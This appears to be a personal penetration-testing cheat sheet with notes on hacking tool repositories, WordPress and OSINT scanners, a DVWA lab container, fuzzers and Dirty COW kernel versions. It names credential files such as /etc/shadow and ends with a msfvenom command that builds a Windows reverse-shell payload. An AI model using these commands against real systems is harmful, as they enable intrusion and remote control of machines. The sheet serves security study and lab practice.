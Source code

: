 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

# list all open file descriptors
ls -la /proc/$$/fd

# Important Linux files
/etc/passwd
/etc/shadow
/etc/login.defs

# Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

#CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

# Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt


# DOCKER
## DVWA
https://github.com/ethicalhack3r/DVWA.git
docker run --rm -it -p 8000:80 vulnerables/web-dvwa
## Apache
httpd 
/usr/local/apache2/htdocs/index.html


# FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz


#Dirty COW Kernels
    4.8.0-26.28 for Ubuntu 16.10
    4.4.0-45.66 for Ubuntu 16.04 LTS
    3.13.0-100.147 for Ubuntu 14.04 LTS
    3.2.0-113.155 for Ubuntu 12.04 LTS
    3.16.36-1+deb8u2 for Debian 8
    3.2.82-1 for Debian 7
    4.7.8-1 for Debian unstable


## Different address spaces in memory are organzed by memory maps; to list:
cat /proc/self/maps

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
